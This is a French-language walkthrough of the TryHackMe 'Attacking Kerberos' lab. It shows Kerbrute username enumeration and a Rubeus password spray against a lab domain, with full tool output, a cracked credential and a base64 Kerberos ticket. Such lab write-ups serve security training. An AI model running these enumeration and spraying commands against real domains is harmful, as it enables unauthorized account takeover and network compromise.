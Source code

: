 ```yaml
---
tags: [active directory, cyber, exploitation, kerberos, tryhackme, windows]
title: TryHackMe - Attacking Kerberos
created: '2020-08-20T13:23:09.391Z'
modified: '2020-08-20T16:06:21.517Z'
---
```


# TryHackMe - Attacking Kerberos

## Introduction

Cette fiche couvre toutes les bases de l'attaque de Kerberos, le service de ticketterie de Windows :

- le Enumération initial à l'aide d'outils comme Kerbrute et Rubeus
- Kerberoasting
- AS-REP roasting avec Rubeus et Impacket
- Attaques des tickets d'or/argent
- Passez le ticket
- Attaques de clés squelettes à l'aide de mimikatz

Cette salle est liée à des applications très concrètes et ne sera probablement pas utile pour les CTF, mais elle permet d'acquérir de solides connaissances de base sur la manière de faire de l'élévation de privilèges jusqu'à un administrateur de domaine en attaquant Kerberos et de prendre le contrôle d'un réseau.

## Enumération avec Kerbrute

On utilise `user.txt` une liste de noms pour énumérer :

```sh
kali@kali:~/Tools/Kerbrute$ ./kerbrute userenum --dc CONTROLLER.local -d CONTROLLER.local user.txt

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 08/20/20 - Ronnie Flathers @ropnop

2020/08/20 11:55:51 >  Using KDC(s):
2020/08/20 11:55:51 >  	CONTROLLER.local:88

2020/08/20 11:55:52 >  [+] VALID USERNAME:	 administrator@CONTROLLER.local
2020/08/20 11:55:52 >  [+] VALID USERNAME:	 admin1@CONTROLLER.local
2020/08/20 11:55:52 >  [+] VALID USERNAME:	 admin2@CONTROLLER.local
2020/08/20 11:55:52 >  [+] VALID USERNAME:	 machine2@CONTROLLER.local
2020/08/20 11:55:52 >  [+] VALID USERNAME:	 machine1@CONTROLLER.local
2020/08/20 11:55:52 >  [+] VALID USERNAME:	 httpservice@CONTROLLER.local
2020/08/20 11:55:52 >  [+] VALID USERNAME:	 user1@CONTROLLER.local
2020/08/20 11:55:52 >  [+] VALID USERNAME:	 user3@CONTROLLER.local
2020/08/20 11:55:52 >  [+] VALID USERNAME:	 user2@CONTROLLER.local
2020/08/20 11:55:52 >  [+] VALID USERNAME:	 sqlservice@CONTROLLER.local
2020/08/20 11:55:52 >  Done! Tested 100 usernames (10 valid) in 0.830 seconds
```

## Harvesting & Brute-Forcing Fickets avec Rubeus

On tente un spray de `Password1` sur le domaine :

```cmd
controller\administrator@CONTROLLER-1 C:\Users\Administrator\Downloads>echo 10.10.235.102 CONTROLLER.local >> C:\Windows\System32\drivers\etc\hosts

controller\administrator@CONTROLLER-1 C:\Users\Administrator\Downloads>Rubeus.exe brute /password:Password1 /noticket

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___  
  |  __  /| | | |  _ \| ___ | | | |/___) 
  | |  \ \| |_| | |_) ) ____| |_| |___ | 
  |_|   |_|____/|____/|_____)____/(___/  

  v1.5.0

[-] Blocked/Disabled user => Guest 
[-] Blocked/Disabled user => krbtgt 
[+] STUPENDOUS => Machine1:Password1
[*] base64(Machine1.kirbi):
 
      doIFWjCCBVagAwIBBaEDAgEWooIEUzCCBE9hggRLMIIER6ADAgEFoRIbEENPTlRST0xMRVIuTE9DQUyi 
      JTAjoAMCAQKhHDAaGwZrcmJ0Z3QbEENPTlRST0xMRVIubG9jYWyjggQDMIID/6ADAgESoQMCAQKiggPx 
      BIID7XGN5ee8uw7Y2CU9DDybo3IjCOVO9VouweyHyy8uiVK1RX/0tNDRIDt0B9FM3JjxQryKz4itRbdO
      kY2vNmsod1blu9JZ+nNceeHgyRLVwsZ/Gd/MPocQVq+IPVMGZVFGt1YH51XVEW7Ah7aVunyRrfmoUX1e
      QW6hWbySB4Ch3X98J+qUHz+gYEPEyy8fmuWq0Ta94SlFXvlswW+Z1E2b6tfWcJLrP5EcNvxGfBo15Pex
      A8m7JkkjVhJDKHOSHSpNRIsfR8XHvK9xbIsvN253g7sS6arya2qbyNr9JUKbRFod4dlzQRBdOqroEJfa
      Y3bWMRD5zLz3lI2Z7ZoZVUP+uiRCbp/iplnrl2YIm5ykAg8TwPS3sI5fUkKtHmWst0TI/8qIe4Rm4mKg
      T23ZOWeTzHVtbt6rBA95CV+KQpcjmlqaAw7PKbzTqPZboYyRQ4LYWgdSFMzHr0VOwAdNBHgs9upV852H
      b8RDwuW2flXT6YI3P2miYFccJ3KU1T+E6kMSEUaIPd5LIcGkStnxFXLx44R4BNwvfcTLejcB8H9jlgH1
      BsSO4z07MYlFOHVw6XtEOlYr4iOPKkEy3ZLt2mNIn7/iW+ZK4X7Gxi62gkS12tA6AtxCAcSb6r3wl6s4
      ixTbfgL3MZKmeDc5Gu7B9zcnFtJYhwZevmVvZJmwpn9koY+crXTJ7qRFdIhrDnqCn2jT2mzdyGFuoOk4
      HzpDK17AhQ/F8Hbn3CGmbvGB0xTv411VpFjvUq5ML+46/GDiabJI2jEg8FVSYoVpbLY2UhkpdzDaFebJ
      mO+EerqjLByAJGGXSExze+En+hGU67mvchuSUUDPCy/381k4sjVgZdg+6W+w+aw4LOxdoXrV+P8OhZZL
      lQdifMoXwvK4XfMvUMItzNbmVJv4TIb1crxnUw8tYLOxOtiKUOACBgklv1TlRizxkGTlNVL+gE8kGRNh
      ohONokRMKhGQxbOqtKLDZe0HPoE951v2Of5wu+H8GVLRleZkHCnKn4IDEIGCZ7YetAKWrhdO2WqEZb5m
      Fu2u06h4M29TqTd1AIYhu6GPWzv3bg1nyouzADYQGdPQD7TcQZYWgOOcX520TjkyPohETirxUXmnQ+Go
      kIqjUxqEA15mL1+7sLd7oPudFwFV9aN+ZEV4FAQncfCsGmY9gOeNpRgacRDoEorIt8Kv8v1yTMfn5vdm
      vyJ0EmTTdEQN5+9MnkVVTM0dlRK9NxTgFsZ8nA0mwB+kFwwZUrO9+N4nvt7gYyCVv8R6s3iM6lQbrwiv
      XSn942D07vW0GcaN2NTWGb71OAA6bujFIQltIw6qSPKoLNu8fQ2wV/FJAsyZKiMXA6OB8jCB76ADAgEA
      ooHnBIHkfYHhMIHeoIHbMIHYMIHVoCswKaADAgESoSIEIGnAV/kB/RRdGMRcpVMKjdCSRJoPnQmLWSzu
      Zmh+T7MzoRIbEENPTlRST0xMRVIuTE9DQUyiFTAToAMCAQGhDDAKGwhNYWNoaW5lMaMHAwUAQOEAAKUR
      GA8yMDIwMDgyMDE1NTcwOFqmERgPMjAyMDA4MjEwMTU3MDhapxEYDzIwMjAwODI3MTU1NzA4WqgSGxBD
      T05UUk9MTEVSLkxPQ0FMqSUwI6ADAgECoRwwGhsGa3JidGd0GxBDT05UUk9MTEVSLmxvY2Fs

[+] Done
```

